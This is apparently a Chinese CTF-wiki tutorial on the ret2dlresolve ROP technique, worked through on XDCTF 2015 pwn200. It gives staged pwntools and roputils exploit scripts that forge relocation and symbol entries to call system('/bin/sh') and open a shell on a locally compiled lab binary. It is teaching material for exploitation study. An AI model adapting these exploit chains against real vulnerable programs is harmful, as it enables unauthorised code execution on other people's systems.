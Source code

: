 高级ROP
=======

高级ROP其实和一般的ROP基本一样，其主要的区别在于它利用了一些更加底层的原理。

ret2\_dl\_runtime\_resolve
--------------------------

原理
~~~~

要想弄懂这个ROP利用技巧，需要首先理解ELF文件的基本结构，以及动态链接的基本过程，请参考executable中elf对应的介绍。这里我只给出相应的利用方式。

我们知道在linux中是利用\_dl\_runtime\_resolve(link\_map\_obj,
reloc\_index)来对动态链接的函数进行重定位的。那么如果我们可以控制相应的参数以及其对应地址的内容是不是就可以控制解析的函数了呢？答案还肯定的。具体利用方式如下

1. 控制程序执行dl\_resolve函数
    -  给定Link\_map以及index两个参数。
    -  当然我们可以直接给定 plt0对应的汇编代码，这时，我们就只需要一个index就足够了。
2. 控制index的大小，以便于指向自己所控制的区域，从而伪造一个指定的重定位表项。
3. 伪造重定位表项，使得重定位表项所指的符号也在自己可以控制的范围内。
4. 伪造符号内容，使得符号对应的名称也在自己可以控制的范围内。

**此外，这个攻击成功的很必要的条件**

-  **dl\_resolve函数不会检查对应的符号是否越界，它只会根据我们所给定的数据来执行。**
-  **dl\_resolve函数最后的解析根本上依赖于所给定的字符串。**

注意：

-  符号版本信息
    -  最好使得ndx = VERSYM[ (reloc->r\_info) >> 8] 的值为0，以便于防止找不到的情况。
-  重定位表项
    -  r\_offset必须是可写的，因为当解析完函数后，必须把相应函数的地址填入到对应的地址。

攻击条件
~~~~~~~~

说了这么多，这个利用技巧其实还是ROP，同样可以绕过NX和ASLR保护。但是，这个攻击更适于一些比较简单的栈溢出的情况，但同时又难以泄露获取更多信息的情况下。

示例
~~~~

这里以XDCTF 2015的pwn200为例。主要参考

1. http://pwn4.fun/2016/11/09/Return-to-dl-resolve/ ，深入浅出。
2. https://www.math1as.com/index.php/archives/341/

首先我们可以编译下ret2dlresolve文件夹下的源文件main.c文件得到二进制文件，这里取消了Canary保护。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ gcc main.c -m32 -fno-stack-protector -o main

在下面的讲解过程中，我会按照以两种不同的方法来进行讲解。其中第一种方法比较麻烦，但是可以仔细理解ret2dlresolve的原理，第二种方法则是直接使用已有的工具，相对容易一点。

1. 利用正常的代码来使用该技巧从而获取shell。

    stage 1 测试控制程序执行write函数的效果。
    
    stage 2 测试控制程序执行dl\_resolve函数，并且相应参数指向正常write函数的plt时的执行效果。
    
    stage 3 测试控制程序执行dl\_resolve函数，并且相应参数指向伪造的write函数的plt时的执行效果。

2. 利用roputils中已经集成好的工具来实现攻击，从而获取shell。

正常攻击
^^^^^^^^

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

.. code:: asm

    gef➤  pattern create 200
    [+] Generating a pattern of 200 bytes
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
    [+] Saved as '$_gef0'
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main 
    Welcome to XDCTF2015~!
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

    Program received signal SIGSEGV, Segmentation fault.
    0x62616164 in ?? ()
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
    $eax   : 0x000000c9
    $ebx   : 0x00000000
    $ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
    $edx   : 0x00000100
    $esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
    $ebp   : 0x62616163 ("caab"?)
    $esi   : 0xf7fac000  →  0x001b1db0
    $edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
    $eip   : 0x62616164 ("daab"?)
    $cs    : 0x00000023
    $ss    : 0x0000002b
    $ds    : 0x0000002b
    $es    : 0x0000002b
    $fs    : 0x00000000
    $gs    : 0x00000063
    $eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    [!] Cannot disassemble from $PC
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcce0', 'l8']
    8
    0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"  ← $esp
    0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
    0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
    0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
    0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
    0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
    0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
    0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  pattern search 
    [!] Syntax
    pattern search PATTERN [SIZE]
    gef➤  pattern search 0x62616164
    [+] Searching '0x62616164'
    [+] Found at offset 112 (little-endian search) likely

stage 1
'''''''

这里我们的主要目的是控制程序执行write函数，虽然我们可以控制程序直接执行write函数。但是这里我们采用一个更加复杂的办法，即使用栈迁移的技巧，将栈迁移到bss段来控制write函数。即主要分为两步

1. 将栈迁移到bss段。
2. 控制write函数输出相应字符串。

这里主要使用了pwntools中的ROP模块。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    ## stack privot to bss segment
    ## new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ### padding
    rop.raw('a' * offset)
    ### read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ### stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    ## write cmd="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"
    rop.write(1, base_stage + 80, len(sh))
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

结果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage1.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 120912
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 2
'''''''

在这一阶段，我们将会利用dlresolve相关的知识来控制程序执行write函数。这里我们主要是利用plt[0]中的相关指令，即push linkmap以及跳转到dl\_resolve函数中解析的指令。此外，我们还得单独提供一个write重定位项在plt表中的偏移。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    ## stack privot to bss segment
    ## new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ### padding
    rop.raw('a' * offset)
    ### read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ### stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    ## write cmd="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    write_index = (elf.plt['write'] - plt0) / 16 - 1
    write_index *= 8
    rop.raw(plt0)
    rop.raw(write_index)
    ## fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

效果如下，仍然输出了cmd对应的字符串。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage2.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 123406
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 3
'''''''

这一次，我们同样控制dl\_resolve函数中的index\_offset参数，不过这次控制其指向我们伪造的write重定位项。

鉴于pwntools本身并不支持对重定位表项的信息的获取。这里我们手动看一下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ readelf -r main  

    重定位节 '.rel.dyn' 位于偏移量 0x318 含有 3 个条目：
     偏移量     信息    类型              符号值      符号名称
    08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
    0804a040  00000905 R_386_COPY        0804a040   stdin@GLIBC_2.0
    0804a044  00000705 R_386_COPY        0804a044   stdout@GLIBC_2.0

    重定位节 '.rel.plt' 位于偏移量 0x330 含有 5 个条目：
     偏移量     信息    类型              符号值      符号名称
    0804a00c  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
    0804a010  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
    0804a014  00000407 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
    0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
    0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0

可以看出write的重定表项的r\_offset=0x0804a01c，r\_info=0x00000607。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    ## stack privot to bss segment
    ## new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ### padding
    rop.raw('a' * offset)
    ### read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ### stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    ## write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    ## making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = 0x607

    rop.raw(plt0)
    rop.raw(index_offset)
    ## fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(write_got)  # fake reloc
    rop.raw(r_info)
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

最后结果如下，这次我们在bss段伪造了一个假的write的重定位项，仍然输出了对应的字符串。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage3.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 126063
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 4
'''''''

stage3中，我们控制了重定位表项，但是重定位表项的内容与write原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。首先，我们根据write的重定位表项的r\_info=0x607可以知道，write对应的符号在符号表的下标为0x607>>8=0x6。因此，我们知道write对应的符号地址为0x8048238。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ objdump -s -EL -j  .dynsym main

    main：     文件格式 elf32-i386

    Contents of section .dynsym:
     80481d8 00000000 00000000 00000000 00000000  ................
     80481e8 33000000 00000000 00000000 12000000  3...............
     80481f8 27000000 00000000 00000000 12000000  '...............
     8048208 52000000 00000000 00000000 20000000  R........... ...
     8048218 20000000 00000000 00000000 12000000   ...............
     8048228 3a000000 00000000 00000000 12000000  :...............
     8048238 4c000000 00000000 00000000 12000000  L...............
     8048248 2c000000 44a00408 04000000 11001a00  ,...D...........
     8048258 0b000000 3c860408 04000000 11001000  ....<...........
     8048268 1a000000 40a00408 04000000 11001a00  ....@...........

这里给出的其实是小端模式，因此我们需要手工转换。此外，每个符号占用的大小为16个字节。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    ## stack privot to bss segment
    ## new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ### padding
    rop.raw('a' * offset)
    ### read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ### stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    ## write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ### making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    fake_write_sym = flat([0x4c, 0, 0, 0x12])

    ### making fake write relocation

    ## making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    ## fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

具体效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage4.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 128795
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 5
'''''''

这一阶段，我们将在阶段4的基础上，我们进一步使得write符号的st\_name指向我们自己构造的字符串。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    ## stack privot to bss segment
    ## new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ### padding
    rop.raw('a' * offset)
    ### read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ### stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    ## write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ### making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    ## plus 10 since the size of Elf32_Sym is 16.
    st_name = fake_sym_addr + 0x10 - dynstr
    fake_write_sym = flat([st_name, 0, 0, 0x12])

    ### making fake write relocation

    ## making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    ## fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('write\x00')  # there must be a \x00 to mark the end of string
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage5.py      
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 129249
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 6
'''''''

这一阶段，我们只需要将原先的write字符串修改为system字符串，同时修改write的参数为system的参数即可获取shell。这是因为，dl\_resolve最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    ## stack privot to bss segment
    ## new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ### padding
    rop.raw('a' * offset)
    ### read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ### stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    ## write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ### making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    ## plus 10 since the size of Elf32_Sym is 16.
    st_name = fake_sym_addr + 0x10 - dynstr
    fake_write_sym = flat([st_name, 0, 0, 0x12])

    ### making fake write relocation

    ## making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    ## fake ret addr of write
    rop.raw('bbbb')
    rop.raw(base_stage + 82)
    rop.raw('bbbb')
    rop.raw('bbbb')
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('system\x00')  # there must be a \x00 to mark the end of string
    rop.raw('a' * (80 - len(rop.chain())))
    print rop.dump()
    print len(rop.chain())
    rop.raw(sh + '\x00')
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

需要注意的是，这里我'/bin/sh'的偏移我修改为了82，这是因为pwntools中它会自动帮你对齐字符串。。。下面这一行说明了问题。

::

    0x0050:           'aara'

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage6.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 130415
    [*] Loaded cached gadgets for './main'
    0x0000:        0x8048380
    0x0004:           0x2528
    0x0008:           'bbbb' 'bbbb'
    0x000c:        0x804a892
    0x0010:           'bbbb' 'bbbb'
    0x0014:           'bbbb' 'bbbb'
    0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
    0x001c:  '\x07i\x02\x00'
    0x0020:           'aaaa' 'aaaaaaaa'
    0x0024:           'aaaa'
    0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
    0x002c: '\x00\x00\x00\x00'
    0x0030: '\x00\x00\x00\x00'
    0x0034: '\x12\x00\x00\x00'
    0x0038:           'syst' 'system\x00'
    0x003c:        'em\x00o'
    0x0040:             'aa'
    0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
    0x0048:           'aaaa'
    0x004c:           'aaaa'
    0x0050:           'aara'
    82
    [*] Switching to interactive mode
    /bin/sh: 1: xa: not found
    $ ls
    core  main.c     stage2.py  stage4.py  stage6.py
    main  stage1.py  stage3.py  stage5.py

工具攻击
^^^^^^^^

根据上面的介绍，我们应该很容易可以理解这个攻击了。下面我们直接使用roputil来进行攻击。代码如下

.. code:: python

    from roputils import *
    from pwn import process
    from pwn import gdb
    from pwn import context
    r = process('./main')
    context.log_level = 'debug'
    r.recv()

    rop = ROP('./main')
    offset = 112
    bss_base = rop.section('.bss')
    buf = rop.fill(offset)

    buf += rop.call('read', 0, bss_base, 100)
    ## used to call dl_Resolve()
    buf += rop.dl_resolve_call(bss_base + 20, bss_base)
    r.send(buf)

    buf = rop.string('/bin/sh')
    buf += rop.fill(20, buf)
    ## used to make faking data, such relocation, Symbol, Str
    buf += rop.dl_resolve_data(bss_base + 20, 'system')
    buf += rop.fill(100, buf)
    r.send(buf)
    r.interactive()

关于dl\_resolve\_call与dl\_resolve\_data的具体细节请参考roputils.py的源码，比较容易理解，需要注意的是，dl\_resolve执行完之后也是需要有对应的返回地址的。

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python roptool.py                       
    [+] Starting local process './main': pid 6114
    [DEBUG] Received 0x17 bytes:
        'Welcome to XDCTF2015~!\n'
    [DEBUG] Sent 0x94 bytes:
        00000000  46 4c 68 78  52 36 67 6e  65 47 53 58  71 77 51 49  │FLhx│R6gn│eGSX│qwQI│
        00000010  32 43 6c 49  77 76 51 33  47 49 4a 59  50 74 6c 38  │2ClI│wvQ3│GIJY│Ptl8│
        00000020  57 54 68 4a  63 48 39 62  46 55 52 58  50 73 38 64  │WThJ│cH9b│FURX│Ps8d│
        00000030  72 4c 38 63  50 79 37 73  55 45 7a 32  6f 59 5a 42  │rL8c│Py7s│UEz2│oYZB│
        00000040  76 59 32 43  74 75 77 6f  70 56 61 44  6a 73 35 6b  │vY2C│tuwo│pVaD│js5k│
        00000050  41 77 78 77  49 72 7a 49  70 4d 31 67  52 6f 44 6f  │Awxw│IrzI│pM1g│RoDo│
        00000060  43 44 43 6e  45 31 50 48  53 73 64 30  6d 54 7a 5a  │CDCn│E1PH│Ssd0│mTzZ│
        00000070  a0 83 04 08  19 86 04 08  00 00 00 00  40 a0 04 08  │····│····│····│@···│
        00000080  64 00 00 00  80 83 04 08  28 1d 00 00  79 83 04 08  │d···│····│(···│y···│
        00000090  40 a0 04 08                                         │@···││
        00000094
    [DEBUG] Sent 0x64 bytes:
        00000000  2f 62 69 6e  2f 73 68 00  73 52 46 66  57 43 59 52  │/bin│/sh·│sRFf│WCYR│
        00000010  66 4c 35 52  78 49 4c 53  54 a0 04 08  07 e9 01 00  │fL5R│xILS│T···│····│
        00000020  6e 6b 45 32  52 76 73 6c  00 1e 00 00  00 00 00 00  │nkE2│Rvsl│····│····│
        00000030  00 00 00 00  12 00 00 00  73 79 73 74  65 6d 00 74  │····│····│syst│em·t│
        00000040  5a 4f 4e 6c  6c 73 4b 5a  76 53 48 6e  38 37 49 47  │ZONl│lsKZ│vSHn│87IG│
        00000050  69 49 52 6c  50 44 38 67  45 77 75 6c  72 47 6f 67  │iIRl│PD8g│Ewul│rGog│
        00000060  55 41 52 4f                                         │UARO││
        00000064
    [*] Switching to interactive mode
    $ ls
    [DEBUG] Sent 0x3 bytes:
        'ls\n'
    [DEBUG] Received 0x8d bytes:
        'core\t     main    roptool.py   roputils.pyc\tstage2.py  stage4.py  stage6.py\n'
